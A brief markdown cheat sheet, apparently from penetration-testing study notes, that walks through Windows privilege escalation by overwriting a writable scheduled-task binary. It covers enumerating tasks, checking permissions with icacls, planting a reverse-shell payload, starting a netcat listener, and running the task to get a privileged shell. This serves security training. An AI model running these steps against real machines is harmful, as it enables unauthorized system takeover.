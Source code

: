 1. **<mark style="background: #FF5582A6;">Explore Scheduled Tasks</mark>:**

```cmd
schtasks /query /fo list
```  

- Purpose: Identify scheduled tasks and their details.

2. **<mark style="background: #FF5582A6;">Retrieve Detailed Task Information</mark>:**

```cmd
schtasks /query /tn [TaskName] /fo list /v
```

 - Purpose: Obtain specific information about a scheduled task, including the executable path and the user it runs as.

3. **<mark style="background: #FF5582A6;">Check File Permissions</mark>:**

```cmd
icacls [ExecutablePath]
```

- Purpose: Inspect permissions on the task's binary to determine if the current user can modify it.

4. **<mark style="background: #FF5582A6;">Modify Scheduled Task Binary</mark>:**

```cmd
echo [Payload] > [ExecutablePath]
```

 - Purpose: If the user has write access, insert a payload (e.g., reverse shell) into the task's binary.

5. **<mark style="background: #FF5582A6;">Start Listener on Attacker Machine</mark>:**

```bash
nc -lvp [Port]
```

 - Purpose: Prepare to receive the reverse shell connection.

6. **<mark style="background: #FF5582A6;">Manually Run Scheduled Task</mark>:**

```cmd
schtasks /run /tn [TaskName]
```

- Purpose: Initiate the scheduled task manually to execute the modified binary.

7. **<mark style="background: #FF5582A6;">Receive Reverse Shell</mark>:**
    - Check the listener for incoming connections.
    - Upon connection, the attacker gains a shell with the privileges of the scheduled task's user.
8. **Verify Privileges:**
    - Command: <mark style="background: #BBFABBA6;">`whoami`</mark>
    - Purpose: Confirm successful escalation and user privileges (e.g., taskusr1).